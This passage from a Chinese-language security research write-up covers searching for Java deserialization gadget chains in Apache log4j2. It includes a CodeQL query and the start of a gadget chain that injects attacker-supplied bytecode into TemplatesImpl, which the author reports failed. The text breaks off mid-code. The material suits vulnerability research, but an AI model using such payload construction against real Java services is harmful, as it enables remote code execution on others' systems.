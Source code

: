 ### apache log4j2 -- 日志组件



#### 可变量 -- BeanComparator 

分析一下BeanComparator在本次gadget做了那些事情，首先作为Comparator传入PriorityQueue中。那来看一下作为PriorityQueue的Comparator有那些要求，首先毋庸置疑得实现Serializable接口。然后作为一个comparator也得实现Java.util.Comparator接口。

![image-20211103143011606](https://gitee.com/samny/images/raw/master/summersec//11u30er11ec/11u30er11ec.png)



其次得实现compare方法

![image-20211103143454090](https://gitee.com/samny/images/raw/master/summersec//20u39er20ec/20u39er20ec.png)



---

#### log4j2 -- PropertySource

这里使用CodeQL去挖掘log4j2组件时的QL规则，最终找到三个类。

```codeql
import java

class MySerializableImpl extends ClassOrInterface{
	MySerializableImpl(){
		this.getName()="Comparator"
  }
}

predicate isMyClass( Class m){
	m.getASourceSupertype() instanceof MySerializableImpl
	and m.getASourceSupertype() instanceof TypeSerializable
}

from Class c
where isMyClass(c)
select c
```

![image-20211103151036584](https://gitee.com/samny/images/raw/master/summersec//36u10er36ec/36u10er36ec.png)



看源码发现，笔者发现PropertySource接口更贴近于所需要的类。下面这段代码是笔者当时构造的一个漏洞gadget chain，很遗憾的是失败了的。

```java
public class PropertySources {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public void getPayload(byte[] clazzBytes) throws Exception {
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{clazzBytes});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        Properties properties = new Properties();
        org.apache.logging.log4j.util.PropertiesPropertySource propertySource1 = new org.apache.logging.log4j.util.PropertiesPropertySource(properties);
        org.apache.logging.log4j.util.PropertySource propertySource2 = new org.apache.logging.log4j.util.PropertySource() {
            @Override
            public int getPriority() {
```
